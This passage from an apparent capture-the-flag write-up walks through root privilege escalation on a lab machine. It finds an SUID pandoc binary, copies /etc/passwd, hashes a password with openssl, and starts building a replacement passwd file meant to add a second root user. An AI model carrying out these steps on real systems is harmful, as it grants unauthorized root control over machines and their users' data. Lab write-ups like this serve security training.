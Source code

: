 **SUID binaries:**
```shell
architect@matrixV99:~$ find / -perm -4000 2>/dev/null
[...]
/usr/bin/pandoc
[...]
```

**In here, we see the `/usr/bin/pandoc` binary has SUID sticky bit.**

**According to [GTFOBins](https://gtfobins.github.io/gtfobins/pandoc/#suid), we can escalate to root:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/M4tr1x-Exit-Denied/images/Pasted%20image%2020230127064839.png)

Armed with above information, we can **override the `/etc/passwd`**, and add a new root user in `/etc/passwd`!

- Backup the original `/etc/passwd`:

```shell
architect@matrixV99:~$ cp /etc/passwd /tmp
```

- Generate a passwd password hash:

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied/BlackCat-attachments/DevTools)-[2023.01.27|06:51:08(UTC)]
└> openssl passwd password
$1$p8wH6NOk$1GHNwFm6Zyt5.5Rlfn6Qf.
```

- Create a new `passwd` file, and add a new root privilege user:

```shell
architect@matrixV99:~$ nano /tmp/passwd_mod
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
architect:x:1000:1000:architect:/home/architect:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
ntp:x:112:115::/nonexistent:/usr/sbin/nologin
```